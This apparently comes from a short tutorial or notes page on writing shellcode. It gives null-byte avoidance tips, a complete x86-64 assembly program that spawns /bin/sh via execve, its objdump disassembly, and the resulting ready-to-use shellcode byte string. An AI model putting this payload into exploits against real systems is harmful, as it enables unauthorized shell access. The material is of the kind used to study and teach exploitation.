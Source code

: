 # Shellcoding

Can be written in C before compiling, or in Assembly.  

Use ASM instructions to set up the stack for your desired actions.  
Compile the program and use `objdump` to pull apart the binary and get the opcodes (shellcode).  

Avoid null bytes, they will likely kill the shellcode execution:  
e.g. use `xor rax, rax` instead of `mov rax, 0`.  

## Example 64bit execve("/bin/sh")

```asm
; Compile with "nasm -f elf64 sh.asm -o sh.o"
; Link "ld sh.o -o sh"

section .text
    global _start

_start:
    xor rax, rax;   ; optional if the program the function you are returning from sets RAX to 0
    push rax;   ; Puts a zero on the stack to terminate our /bin/sh string
    xor rsi, rsi;   ; Set RSI to 0
    xor rdx, rdx;   ; Set RDX to 0
    mov rbx, 0x68732f6e69622f2f;    ; Move "//bin/sh" into RBX (2 slashes to completely fill the register)
   ; For 32 bit: push a 0 value to the stack, then //sh then /bin
    push rbx;   ; move "//bin/sh" to the stack
    mov rdi, rsp;   ; Pointer to "//bin/sh" in RDI
    mov al, 0x3b;   ; execve syscall number
    syscall;
```

After compiling and linking, get opcodes with `objdump -d sh` (second column contains your shellcode):  

```bash
bin_sh:     file format elf64-x86-64

Disassembly of section .text:

0000000000401000 <_start>:
  401000:       48 31 c0                xor    %rax,%rax
  401003:       50                      push   %rax
  401004:       48 31 f6                xor    %rsi,%rsi
  401007:       48 31 d2                xor    %rdx,%rdx
  40100a:       48 bb 2f 2f 62 69 6e    movabs $0x68732f6e69622f2f,%rbx
  401011:       2f 73 68 
  401014:       53                      push   %rbx
  401015:       48 89 e7                mov    %rsp,%rdi
  401018:       b0 3b                   mov    $0x3b,%al
  40101a:       0f 05                   syscall
```

Gives the following shellcode:  

`\x48\x31\xc0\x50\x48\x31\xf6\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05`  
